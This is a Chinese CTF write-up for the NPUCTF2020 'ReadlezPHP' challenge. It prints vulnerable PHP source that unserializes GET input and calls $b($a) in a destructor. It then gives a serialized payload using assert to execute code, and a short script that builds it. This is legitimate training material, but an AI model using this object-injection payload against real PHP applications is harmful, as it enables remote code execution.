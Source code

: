 # \[NPUCTF2020]ReadlezPHP

## \[NPUCTF2020]ReadlezPHP

## 考点

* PHP反序列化
* 动态调用函数函数
* eval()特性

## wp

有个页面`time.php?source`

![](<../../.gitbook/assets/image (12) (1).png>)

访问后得到源码，是php反序列化

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```

payload：`time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:10:"phpinfo();";s:1:"b";s:6:"assert";}`

```php
<?php
class HelloPhp
{
    public $a = 'phpinfo();';
    public $b = 'assert';

}
$c = new HelloPhp;

echo serialize($c);
```

## 小结

1. 为什么不能用eval呢？因为<mark style="color:red;">eval是构造器，不算是个函数，不能使用$b($a)的方式调用</mark>。
2. 读取文件的函数：<mark style="color:orange;">`readfile`</mark>，<mark style="color:orange;">`show_source`</mark>，<mark style="color:orange;">`highlight_file`</mark>，<mark style="color:orange;">`file_get_contents`</mark>
